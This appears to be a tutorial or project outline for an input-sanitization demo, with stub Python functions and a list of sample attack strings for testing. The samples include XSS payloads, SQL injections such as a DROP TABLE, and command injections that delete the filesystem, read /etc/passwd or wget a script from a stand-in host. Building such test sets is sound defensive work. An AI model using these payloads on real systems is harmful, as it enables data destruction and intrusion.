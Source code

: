 ### Sanitization Functions
```python
def sanitize_html_content(content):
    """Sanitize HTML content to prevent XSS attacks"""
    pass

def detect_sql_injection(content):
    """Detect and neutralize SQL injection patterns"""
    pass

def prevent_command_injection(content):
    """Prevent command injection attempts"""
    pass

def sanitize_script_tags(content):
    """Remove or neutralize script tags"""
    pass

def preserve_legitimate_content(content, sanitization_rules):
    """Ensure legitimate content is preserved during sanitization"""
    pass

def measure_sanitization_performance(content, sanitization_func):
    """Measure performance impact of sanitization"""
    pass
```

### Attack Patterns to Demonstrate
```python
def create_attack_samples():
    """Create sample content with various attack patterns"""
    samples = {
        'xss_attacks': [
            '<script>alert("XSS")</script>',
            '<img src=x onerror=alert("XSS")>',
            'javascript:alert("XSS")',
            '<iframe src="javascript:alert(\'XSS\')"</iframe>'
        ],
        'sql_injection': [
            "'; DROP TABLE users; --",
            "1' OR '1'='1",
            "UNION SELECT * FROM passwords",
            "admin'--"
        ],
        'command_injection': [
            "; rm -rf /",
            "| cat /etc/passwd",
            "&& wget malicious.com/script.sh",
            "`whoami`"
        ],
        'legitimate_content': [
            "<p>This is a normal paragraph</p>",
            "SELECT name FROM users WHERE id = 1",
            "echo 'Hello World'",
            "<strong>Important:</strong> Please review this document"
        ]
    }
    return samples
```
